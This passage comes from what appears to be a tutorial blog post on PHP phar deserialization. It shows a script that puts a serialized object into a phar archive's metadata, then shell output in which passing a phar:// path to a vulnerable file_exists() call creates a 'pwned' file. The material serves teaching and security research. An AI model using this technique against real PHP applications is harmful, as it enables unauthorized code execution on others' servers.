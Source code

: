 ```php
  16   │ 
  17   │ // Set the stub
  18   │ $poc->setStub("<?php echo 'Here is the STUB!'; __HALT_COMPILER();");
  19   │ 
  20   │ // Add a new file in the archive with "text" as its content
  21   │ $poc["file1"] = "text";
  22   │ $poc["file2"] = "another Text";
  23   │ // Add the dummy object to the metadata. This will be serialized
  24   │ $poc->setMetadata($dummy);
  25   │ 
  26   │ // Stop buffering and write changes to disk
  27   │ $poc->stopBuffering();
  28   │ ?>
```

Then generate phar archive like so.

```bash
❯ ls
create.php  index.php

❯ php --define phar.readonly=0 create.php       

❯ ls
create.php  index.php  poc.phar
```

{{< figure src="/img/posts/unserialize_without_unserialize/3.png" caption="Figure 3: Phar hexdump" width="100%" align="center" >}}

Figure 3 shows the hex version of generated phar file from `xxd`. As you can see on Figure 3, after generating phar archive, some of manifest content is in serialized format, which is what stated in the previous manifest metadata part. Now let run the `index.php` vulnerable application.

```bash
❯ ls
create.php  index.php  poc.phar

❯ php index.php phar://./poc.phar
File is exists

❯ ls
create.php  index.php  poc.phar  pwned

❯ cat pwned    
Linux nightfury99-MS-XXXX x.xX.0-XX-generic #xx~xx.Xx.X-Ubuntu SMP PREEMPT_DYNAMIC XXX Apr 18 17:40:00 UTC 2 x86_64 x86_64 x86_64 GNU/Linux
```

`pwned` file was created after passing `phar://./poc.phar` with `phar://` stream wrapper to `file_exists()` function. We already aware about serialized data on phar manifest, and it will deserialized the metadata whenever `phar://` wrapper is used, but how?

## How Phar can unserialize? 
